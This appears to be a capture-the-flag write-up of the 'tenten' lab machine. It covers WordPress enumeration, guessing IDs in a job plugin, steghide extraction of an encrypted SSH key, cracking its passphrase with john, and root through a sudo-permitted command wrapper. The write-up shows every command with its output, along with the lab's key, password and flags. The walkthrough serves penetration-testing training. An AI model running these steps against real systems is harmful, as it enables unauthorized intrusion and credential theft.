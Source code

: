 # tenten

## tenten

tenten was a relatively easy medium linux box that involved recon of the wordpress site to find a jpg file. We then run steghide on the file to get an rsa key which we extract the password from using ssh2john. We then ssh into the box as user, for root we find an intersesting file called `fuckin` which we can abuse to get comand execution and read the root flag.

> Skills involved in this box:
>
> * enumeration
> * privelage escalation
> * hash cracking
> * steghide

## USER

> Nmap

```text
nmap -sC -sV -o nmap 10.10.10.10

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 09:24 EDT                                                    
Nmap scan report for 10.10.10.10                                                                                   
Host is up (0.031s latency).                                                                                       
Not shown: 998 filtered ports                                                                                      
PORT   STATE SERVICE VERSION                                                                                       
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)                                  
| ssh-hostkey:                                                                                                     
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)                                                     
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our nmap scan reveals just 2 ports open, 22 on ssh and port 80 on http.

We head over to the website and se imeediately that it is wordpress, instead of using dirbuster or any oter reconnaisance tools we use wpscan which is made specifically for wordpress.

```text
$ sudo wpscan -u http://10.10.10.10 
[+] We found 1 plugins:

[+] Name: job-manager - v7.2.5
 |  Latest version: 0.7.25 (up to date)
 |  Last updated: 2015-08-25T22:44:00.000Z
 |  Location: http://10.10.10.10/wp-content/plugins/job-manager/
 |  Readme: http://10.10.10.10/wp-content/plugins/job-manager/readme.txt
[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+-------+-------+
    | Id | Login | Name  |
    +----+-------+-------+
    | 1  | takis | takis |
    | 2  | user1 | user1 |
    +----+-------+-------+
```

We can see that there is a user called takis on the site, we assume that this is going to be the user for this box.

Afer navigating to the http page and enumerating the website we come accross the job listings page where we click `apply` and we get an interesting url.

`http://10.10.10.10/index.php/jobs/apply/8/`

We can see that there is the number `8` which we assume is the id of the person logged on, we test a few more numbers and we get a unique user called `HackerAccessGranted` we assume that this has to be the right thing.

We could also get this by intercepting the request with burpsuite and sending it to intruder, we then generate a custom payload with numbers\(e.g like 1-20\), then take a look at the output and get the same response for number 13.

> Exploit

he wordpress directory structure for the uploaded files is known as /wp-content/uploads/%year%/%month%/%filename% - file structure for wordpress

We test file extensions for our wanted file and it finally works with a `jpg` file.

```text
wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

This can also be find by fuzzing further for files or by using an exploit `CVE-2015-6668` which is a python script that bruteforces files and shows us the image file.

We then run steghide on this image to see if we can exfiltrate any hidden data inside it.

```text
kali@kali:~/boxes/tenten$ steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".

cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C

/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf
K2ny0iTGPndD7LMdm/o5O5As+ChDYFNphV1XDgfDzHgonKMC4iES7Jk8Gz20PJsm
SdWCazF6pIEqhI4NQrnkd8kmKqzkpfWqZDz3+g6f49GYf97aM5TQgTday2oFqoXH
WPhK3Cm0tMGqLZA01+oNuwXS0H53t9FG7GqU31wj7nAGWBpfGodGwedYde4zlOBP
VbNulRMKOkErv/NCiGVRcK6k5Qtdbwforh+6bMjmKE6QvMXbesZtQ0gC9SJZ3lMT
J0IY838HQZgOsSw1jDrxuPV2DUIYFR0W3kQrDVUym0BoxOwOf/MlTxvrC2wvbHqw
AAniuEotb9oaz/Pfau3OO/DVzYkqI99VDX/YBIxd168qqZbXsM9s/aMCdVg7TJ1g
2gxElpV7U9kxil/RNdx5UASFpvFslmOn7CTZ6N44xiatQUHyV1NgpNCyjfEMzXMo
6FtWaVqbGStax1iMRC198Z0cRkX2VoTvTlhQw74rSPGPMEH+OSFksXp7Se/wCDMA
pYZASVxl6oNWQK+pAj5z4WhaBSBEr8ZVmFfykuh4lo7Tsnxa9WNoWXo6X0FSOPMk
tNpBbPPq15+M+dSZaObad9E/MnvBfaSKlvkn4epkB7n0VkO1ssLcecfxi+bWnGPm
KowyqU6iuF28w1J9BtowgnWrUgtlqubmk0wkf+l08ig7koMyT9KfZegR7oF92xE9
4IWDTxfLy75o1DH0Rrm0f77D4HvNC2qQ0dYHkApd1dk4blcb71Fi5WF1B3RruygF
2GSreByXn5g915Ya82uC3O+ST5QBeY2pT8Bk2D6Ikmt6uIlLno0Skr3v9r6JT5J7
L0UtMgdUqf+35+cA70L/wIlP0E04U0aaGpscDg059DL88dzvIhyHg4Tlfd9xWtQS
VxMzURTwEZ43jSxX94PLlwcxzLV6FfRVAKdbi6kACsgVeULiI+yAfPjIIyV0m1kv
5HV/bYJvVatGtmkNuMtuK7NOH8iE7kCDxCnPnPZa0nWoHDk4yd50RlzznkPna74r
Xbo9FdNeLNmER/7GGdQARkpd52Uur08fIJW2wyS1bdgbBgw/G+puFAR8z7ipgj4W
p9LoYqiuxaEbiD5zUzeOtKAKL/nfmzK82zbdPxMrv7TvHUSSWEUC4O9QKiB3amgf
yWMjw3otH+ZLnBmy/fS6IVQ5OnV6rVhQ7+LRKe+qlYidzfp19lIL8UidbsBfWAzB
9Xk0sH5c1NQT6spo/nQM3UNIkkn+a7zKPJmetHsO4Ob3xKLiSpw5f35SRV+rF+mO
vIUE1/YssXMO7TK6iBIXCuuOUtOpGiLxNVRIaJvbGmazLWCSyptk5fJhPLkhuK+J
YoZn9FNAuRiYFL3rw+6qol+KoqzoPJJek6WHRy8OSE+8Dz1ysTLIPB6tGKn7EWnP
-----END RSA PRIVATE KEY-----
```

It works and it outputs to a file called id\_rsa which is the ssh key for the user takis.

We try ssh into the box but the key is password protected.

```text
kali@kali:~/boxes/tenten$ chmod 600 id_rsa
kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password:
```

From here we tried `ssh2john.py` with `john` which worked great!

```text
sudo /usr/share/john/ssh2john.py  id_rsa > hash

kali@kali:~/boxes/tenten$ sudo john -w=/home/kali/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:07 DONE (2020-06-22 09:41) 0.1416g/s 2031Kp/s 2031Kc/s 2031KC/sa6_123..*7¡Vamos!
Session completed
```

So now we got our password `superpassword`.

We ssh into the box and read our user flag.

```text
kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
takis@tenten:~$ ls
user.txt
takis@tenten:~$ cat user.txt
e5c7ed3b89e73049c04c432fc8686f31
```

## ROOT

We run `sudo -l` to check if we have any privs for running things as sudo and it turns out that we do.

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

we can see here that the user can run the file `fuckin` as root.

We experiment with what the file can do and we realise that we can simply specify the command after the file, we willl use this to read the root flag.

```text
takis@tenten:~$ fuckin cat /root/root.txt
cat: /root/root.txt: Permission denied
takis@tenten:~$ fuckin id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
takis@tenten:~$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)
takis@tenten:~$ sudo fuckin cat /root/root.txt
f9f7291e39a9a2a011b1425c3e08f603
takis@tenten:~$
```

Thanks for reading hope you enjoyed!

